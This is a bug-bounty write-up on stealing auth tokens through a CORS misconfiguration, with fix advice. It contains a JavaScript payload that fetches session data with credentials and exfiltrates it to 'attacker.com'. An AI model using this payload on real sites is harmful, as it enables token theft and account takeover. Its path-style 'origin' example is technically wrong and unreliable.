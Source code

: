 ```yaml
---
title: Auth Token Theft via CORS Misconfiguration
layout: post
categories: web
description: "A critical CORS misconfiguration allowed stealing authentication tokens by abusing a wildcard-like origin match and Access-Control-Allow-Credentials: true."
date: 2025-03-08
tags:
  - cors
  - auth-token-theft
  - access-control
  - bug-bounty
  - web-security
summary: "A critical CORS misconfiguration allowed stealing authentication tokens by abusing a wildcard-like origin match and Access-Control-Allow-Credentials: true."
read_time: 3 minute read
pin: false
comments: true
toc: true
---
```


In this post, I’ll walk you through a **CORS misconfiguration vulnerability** I discovered that allowed me to **steal authentication tokens**, **impersonate users**, and access sensitive data — all with a few lines of JavaScript. This bug stemmed from a subtle but dangerous CORS policy misconfiguration.

---

## 🧠 Background: What Is CORS?

**CORS (Cross-Origin Resource Sharing)** is a browser security feature that restricts how websites from one origin can interact with resources from another. If not configured properly, it can unintentionally expose APIs to malicious sites.

---

## 🚩 The Vulnerability

The API I tested had the following CORS behavior:

* It allowed any origin that **ended with** a trusted subdomain like `rise.target.com`
* It also responded with:

  ```
  Access-Control-Allow-Credentials: true
  Access-Control-Allow-Origin: https://evil.com/rise.target.com
  ```

That meant **any malicious domain** that crafted a similar subdomain (e.g., `https://evil.com/rise.target.com`) could **bypass origin checks** and access sensitive API responses.

---

## 🔬 Testing the Exploit

I hosted a malicious site at:

```
https://evil.com/rise.target.com
```

Then, I injected this simple payload:

```javascript
fetch("https://id.target.com/v1/session/rise/switch/", {
  method: "GET",
  credentials: "include" // Sends victim's cookies
})
.then(res => res.json())
.then(data => {
  // Exfiltrate session data to my server
  fetch("https://attacker.com/steal?data=" + encodeURIComponent(JSON.stringify(data)));
});
```

When a logged-in victim visited my page, their browser:

* Automatically sent their session cookie (`HERMES_ID`)
* The API accepted my domain (since it *looked* trusted)
* The response included **valid tokens and user metadata**
* The data was silently exfiltrated to my server

---

## 📸 Evidence

Here’s a look at what I received:

* ✅ Valid `access_token`
* 🧑‍💼 User profile information
* 🔐 Authenticated session context

![POC](/assets/img/2.png)

---

## 🛡️ Fix Recommendations

To fix this kind of issue, here’s what I recommended:

### 1. **Strict CORS Origin Checks**

Only allow exact origins:

```http
Access-Control-Allow-Origin: https://rise.target.com
```

Avoid dangerous patterns like:

```js
if (origin.endsWith('rise.target.com')) // ❌
```

### 2. **Secure Cookies with SameSite**

Use this to block cross-origin cookies:

```http
Set-Cookie: HERMES_ID=abc; Secure; HttpOnly; SameSite=Strict
```

### 3. **Avoid Allowing Credentials Loosely**

Only use:

```http
Access-Control-Allow-Credentials: true
```

...if you’re absolutely sure the origin is trusted.

---

## 🎯 Impact

This misconfiguration could allow:

* Complete **account takeover**
* Unauthorized **GraphQL or API access**
* Exploitation from **any malicious website** with a spoofed subdomain

---

## 🔚 Final Thoughts

CORS misconfigurations are subtle and often overlooked — but their impact can be critical. This vulnerability didn’t need a single line of backend code to be touched by the attacker. Just a cookie, a misconfigured header, and a clever origin were enough.

If you're building or reviewing APIs, **always test your CORS logic** under real attack scenarios. What seems safe on paper might leak tokens in practice.

---

thanks for reading.
If you enjoyed this write-up, feel free to follow me on [Twitter](https://twitter.com/00xmora)

